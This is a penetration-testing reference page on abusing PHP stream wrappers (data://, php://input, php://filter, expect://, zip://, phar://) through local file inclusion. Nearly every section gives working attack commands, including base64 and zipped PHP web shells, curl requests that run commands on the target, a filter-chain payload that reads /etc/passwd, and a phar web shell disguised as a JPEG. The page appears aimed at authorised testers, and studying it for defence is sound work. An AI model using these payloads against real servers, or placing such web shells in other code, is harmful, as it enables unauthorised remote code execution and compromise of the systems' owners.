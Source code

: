 # PHP wrappers and streams

<details>

<summary>data://</summary>

The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>php://input</summary>

The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```
{% endcode %}

</details>

<details>

<summary>php://filter</summary>

The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.

{% code overflow="wrap" %}
```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```
{% endcode %}

The [php\_filter\_chain\_generator.py](https://github.com/synacktiv/php\_filter\_chain\_generator/blob/main/php\_filter\_chain\_generator.py) script (Python3) implements the generation of the PHP filters chaining.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># Example: generate &#x3C;?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.
<strong>
</strong><strong># Generate the payload 
</strong>python3 php_filter_chain_generator.py --chain '&#x3C;?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&#x26;cmd=whoami"
</code></pre>

Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.

</details>

<details>

<summary>expect://</summary>

The `expect` wrapper doesn't required the `allow_url_include` configuration, the `expect` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=expect://id"
```

</details>

<details>

<summary>zip://</summary>

The prerequisite for this method is to be able to [upload a file](../../../inputs/unrestricted-file-upload.md).

{% code overflow="wrap" %}
```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```
{% endcode %}

</details>

<details>

<summary>phar://</summary>

The prerequisite for this method is to be able to [upload a file](../../../inputs/unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.

{% code overflow="wrap" %}
```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```
{% endcode %}

</details>
